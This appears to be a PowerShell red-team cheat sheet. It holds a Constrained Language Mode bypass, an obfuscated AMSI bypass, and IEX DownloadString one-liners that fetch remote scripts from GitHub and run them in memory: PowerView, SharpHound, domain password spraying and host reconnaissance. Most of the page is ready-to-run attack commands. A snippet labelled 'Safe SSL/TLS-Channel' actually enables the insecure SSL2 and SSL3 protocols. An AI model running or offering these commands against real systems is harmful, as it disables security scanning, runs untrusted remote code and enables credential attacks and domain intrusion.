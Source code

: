 # Bypasses
------------
##### Powershell CLM Bypass:
~~~
$CurrTemp = $env:temp
$CurrTmp = $env:tmp
$TEMPBypassPath = "C:\windows\temp"
$TMPBypassPath = "C:\windows\temp"
Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value "$TEMPBypassPath"
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value "$TMPBypassPath"
Invoke-WmiMethod -Class win32_process -Name create -ArgumentList "Powershell.exe  -ExecutionPolicy bypass"
sleep 5
#Set it back
Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value $CurrTmp
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value $CurrTemp
~~~

##### Powershell Obfuscated AMSI Bypass:
~~~
$w='System.Management.Automation.A';$c='si';$m='Utils'
$assembly=[Ref].Assembly.GetType(('{0}m{1}{2}'-f$w,$c,$m))
$field=$assembly.GetField(('am{0}InitFailed'-f$c),'NonPublic,Static')
$field.SetValue($null,$true)
~~~

##### Powershell Modified AMSI .Net Bypass script - In Memory
~~~
IEX (New-Object Net.Webclient).DownloadString('https://gist.githubusercontent.com/shantanu561993/6483e524dc225a188de04465c8512909/raw/db219421ea911b820e9a484754f03a26fbfb9c27/AMSI_bypass_Reflection.ps1')
~~~

### Scripts - In Memory
-----------------------
#### Host Recon
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/dafthack/HostRecon/master/HostRecon.ps1');
Invoke-HostRecon
~~~

#### ConvertTo-PowerShell
~~~
IEX (New-Object Net.Webclient).DownloadString('https://github.com/cfalta/PowerShellArmoury/raw/2d9bea5e1c10353186fe75ebc28c5e596247dca3/utilities/ConvertTo-Powershell.ps1');
~~~

##### Powerview
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')
~~~

##### Spray
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/HeeresS/DomainPasswordSpray/master/DomainPasswordSpray.ps1'); Invoke-DomainPasswordSpray -Domain <domain> -Password password
~~~
##### Sharphound
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1'); Invoke-BloodHound -Domain <domain> -CollectionMethod All
~~~
##### Safe SSL/TLS-Channel
~~~
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Ssl3 -bor [
Net.SecurityProtocolType]::Ssl2 -bor [Net.SecurityProtocolType]::Tls -bor [Net.SecurityProtocolType]::Tls11 -bor [Net.Se
curityProtocolType]::Tls12
~~~
